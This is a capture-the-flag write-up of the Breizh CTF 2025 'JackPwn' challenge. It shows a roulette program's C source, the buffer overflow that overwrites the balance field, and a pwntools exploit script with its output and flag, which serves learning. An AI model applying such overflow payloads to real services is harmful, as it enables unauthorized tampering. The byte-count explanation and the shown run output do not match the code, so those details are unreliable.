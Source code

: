 ```yaml
---
title: "Breizh CTF 2025 - JackPwn"
date: 2025-04-14
tags: ["buffer-overflow", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# JackPwn - Breizh CTF 2025

## Challenge Description

JackPwn is a Pwn category challenge from Breizh CTF 2025. It simulates a roulette game with a vulnerability.

## Binary Analysis

Here is the source code of the binary:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define MISE 2

const char roulette[] = "xRNRNRNRNRNNRNRNRNRRNRNRNRNRNNRNRNRNR";

void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}

int get_random_number() {
    return 1 + (random() % 36);
}

int main() {
    int bille;
    char gagne;
    char valide, rouge, noir, pair, impair;

    struct {
        char mise[32];
        int solde;
    } ctx;

    ctx.solde = 50;

    srand(time(NULL));

    while (ctx.solde > 0) {
        valide = rouge = noir = pair = impair = 0;
        gagne = 0;

        do {
            printf("Solde : %d\n", ctx.solde);
            printf("Votre mise : ");
            fflush(stdout);
            read_input(ctx.mise);

            if (!strcmp(ctx.mise, "rouge")) {
                valide = rouge = 1;
            } else if (!strcmp(ctx.mise, "noir")) {
                valide = noir = 1;
            } else if (!strcmp(ctx.mise, "pair")) {
                valide = pair = 1;
            } else if (!strcmp(ctx.mise, "impair")) {
                valide = impair = 1;
            } else {
                puts("Mise invalide");
            }
        } while (!valide);

        bille = get_random_number();
        printf("La bille s'est stoppée sur la case %d (%c)\n", bille, roulette[bille]);

        if (rouge && roulette[bille] == 'R') {
            gagne = 1;
        } else if (noir && roulette[bille] == 'N') {
            gagne = 1;
        } else if (pair && ((bille % 2) == 0)) {
            puts("pair");
            gagne = 1;
        } else if (impair && ((bille % 2) == 1)) {
            puts("impair");
            gagne = 1;
        } else {
            gagne = 0;
        }

        if (gagne) {
            puts("Gagné");
            ctx.solde += MISE;
        } else {
            puts("Perdu");
            ctx.solde -= MISE;
        }

        if (ctx.solde == 0x1337) {
            char *flag = getenv("FLAG");
            if (flag == NULL) {
                puts("fake_flag");
            } else {
                puts(flag);
            }
            return 0;
        }
    }
}
```

After analysis, we can identify several key points:

1. The program simulates a roulette game where the player can bet on "rouge" (red), "noir" (black), "pair" (even), or "impair" (odd)
2. A `ctx` structure contains two elements:
   - `mise[32]`: a 32-byte buffer to store the bet
   - `solde`: an integer representing the player's balance
3. The flag is displayed only if the balance reaches exactly 0x1337 (4919 in decimal)
4. The `read_input()` function reads characters until it encounters a newline, without checking the buffer size
5. With an initial balance of 50 and gains/losses of only 2, it would take a huge number of rounds to reach 4919

## Vulnerability

The main vulnerability is a classic buffer overflow in the `read_input()` function:

```c
void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}
```

This function does not check the buffer size and continues writing until it encounters a newline. Moreover, when this function is called, the buffer passed as a parameter is `ctx.mise`, which is only 32 bytes. If you enter more than 32 characters, you will overflow into the `solde` field, which is located just after in memory.

## Exploitation

The exploitation strategy is simple:
1. Fill the 32-byte `mise` buffer
2. Write exactly 4 more bytes with the value 0x1337 (4919) into `solde`
3. The value will be considered valid because the buffer is null-terminated (added by `read_input`)

Here is how to exploit this vulnerability:

```python
from pwn import *

HOST = "jackpwn-180.chall.ctf.bzh"
PORT = 1337

p = remote(HOST, PORT)

payload = b"rouge".ljust(32, b"\x00")  
payload += p64(0x1335)                 #0x1337 - 2 align on 64 bits 

p.recvuntil(b"Votre mise : ")
p.sendline(payload)

while True:
    try:
        line = p.recvline(timeout=1).decode().strip()
        print(line)
        if "BZHCTF{" in line:
            break
    except:
        break

p.close()

```

## Flag

After running the exploit, the program detects that the balance is exactly 0x1337 and displays the flag:

```
$ python3 exploit.py
[+] Opening connection to jackpwn.chall.ctf.bzh on port 1337: Done
[+] Receiving all data: Done
[*] Closed connection to jackpwn.chall.ctf.bzh port 1337
Mise invalide
Solde : 4919
Votre mise : 
BZHCTF{j4ckp0t_0v3rfl0w_ftw}
```
